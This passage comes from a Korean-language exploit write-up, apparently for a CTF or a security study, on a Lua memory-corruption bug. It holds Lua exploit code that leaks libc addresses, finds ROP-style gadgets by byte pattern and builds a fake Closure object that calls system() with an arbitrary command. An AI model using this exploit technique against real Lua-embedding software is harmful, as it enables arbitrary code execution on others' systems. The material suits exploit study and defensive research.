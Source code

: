 ```lua
            end
        end

    end

    coro = coroutine.create(coro_fn)
    while not can_read(addrof(coro)) do
        coro = coroutine.create(coro_fn)
    end
    coroutine.resume(coro)
    local libc_base = find_libc_base(libc_leak)
```

위 코드는 coroutine을 통해 스택의 주소를 알아낸 다음 스택에서 읽은 데이터 중 라이브러리 주소로 추측되는 데이터를 인자로 `find_libc_base` 함수를 호출하여 라이브러리 베이스를 계산합니다

유출한 라이브러리 주소의 최하위 12비트를 모두 0으로 바꾼 다음 4바이트를 읽고 ELF 파일의 시그니처와 비교하는 방식으로 베이스 주소를 알아낼 수 있습니다.

### 8. Create Fake Function

익스플로잇은 최종적으로 아래와 같이 gadget 주소를 계산하고 `fakeobj`로 Fake `Closure` 오브젝트를 생성하고 이를 호출하는 것으로 임의의 코드를 실행합니다.

```lua
   local system_addr = resolve_symbol_gnu(libc_leak, "system")
   -- error("system at " .. string.format("0x%x", system_addr))

   local libc_base = find_libc_base(libc_leak)
   local finder = read_str_at(libc_base, 0x150000)

   -- mov rdi, qword ptr [rax] ; mov rax, qword ptr [rdi + 0x38] ; call qword ptr [rax + 0x10];
   local start_index, end_index = string.find(finder, "\72\139\56\72\139\71\56\255\80\16")
   local gadget1 = libc_base + start_index - 1
   -- error("gadget1 at " .. string.format("0x%x", gadget1))

   -- call qword ptr [rax + 0x18];
   local start_index, end_index = string.find(finder, "\255\80\24")
   local gadget2 = libc_base + start_index - 1
   -- error("gadget2 at " .. string.format("0x%x", gadget1))

   local ptr_ptr = (p64(gadget2) .. p64(system_addr))

   local cmd = "[CMD]"
   local arg1 = (
       cmd
       .. string.rep("\0", 56-#cmd)
       .. p64(addrof(ptr_ptr) + 0x18 - 0x10)
       .. p64(0)
    )

   local fake_function = (
      p64(addrof(arg1) + 0x18) -- 00h
      .. p64(0x010106)
      .. p64(0)
      .. p64(0)
      .. p64(gadget1)
      .. p64(0)
      .. p64(0)
      .. p64(0)
   )

   local fake_function = fakeobj(addrof(fake_function) + 0x18, 6)
   fake_function()
```
